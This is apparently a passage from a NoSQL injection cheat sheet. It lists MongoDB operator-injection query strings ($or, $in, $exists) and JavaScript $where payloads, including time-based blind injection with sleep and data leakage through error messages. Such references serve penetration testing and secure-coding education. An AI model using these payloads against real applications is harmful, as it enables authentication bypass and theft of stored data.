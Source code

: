 #### Logical Operators

```
# OR operation
[$or][0][username]=admin&[$or][1][username]=user

# AND operation
[$and][0][username]=admin&[$and][1][age][$gt]=18
```

#### Array Operators

```
# Field matches any value in array
tags[$in][]=admin&tags[$in][]=user

# Field doesn't match any value in array
role[$nin][]=guest&role[$nin][]=user
```

#### Element Operators

```
# Field exists check
admin[$exists]=true

# Type check
age[$type]=16  # 16 = int in BSON
```

#### JavaScript Execution (MongoDB specific)

```
# Using $where operator
$where=this.username=="admin"

# More complex function
$where=function(){sleep(5000);return true;}
```

## Advanced NoSQL Injection Techniques

### JavaScript Injection in MongoDB

```javascript
// Classic $where injection
db.users.find({$where: "this.username == 'admin'"})

// Time-based blind injection
db.users.find({$where: "if(this.username=='admin'){sleep(5000);return true;}else{return false;}"})

// Exfiltration via error messages
db.users.find({$where: "this.username == ''+JSON.stringify(this)+''"})
```
